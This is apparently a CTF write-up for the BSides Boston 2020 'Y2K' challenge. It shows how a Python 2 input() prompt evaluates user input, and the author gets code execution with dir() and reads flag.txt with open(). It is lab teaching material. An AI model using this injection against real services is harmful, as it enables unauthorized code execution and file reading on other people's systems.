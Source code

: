 ```yaml
---
title: "BSides Boston 2020: Y2K"
tags: [CTF, python]
date: 09-27-2020
---
```



# Challenge
Prompt:

![png](/images/bsides-writeups/y2k_prompt.png)

We are given a netcat command, and when we connect we get the prompt:

```
What year do YOU think the world will end?
```

We can give it an integer value and it spits it back:
```
Yeah! I agree with you! I also think the world will end in the year
1234
```

Providing a non-integer output throws an error:
```
Traceback (most recent call last):
  File "/home/challenge/server.py", line 4, in <module>
    end = input()
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```

So we are dealing with a python script and it is trying to reference our input.
Lets give it a command!

```
What year do YOU think the world will end?
dir()
Yeah! I agree with you! I also think the world will end in the year
['__builtins__', '__doc__', '__file__', '__name__', '__package__']
```

We have code execution. Fantastic.
Let's see if we can read files...

```
What year do YOU think the world will end?
open('flag.txt').read()
Yeah! I agree with you! I also think the world will end in the year
flag{we_are_saved_from_py2_k}
```
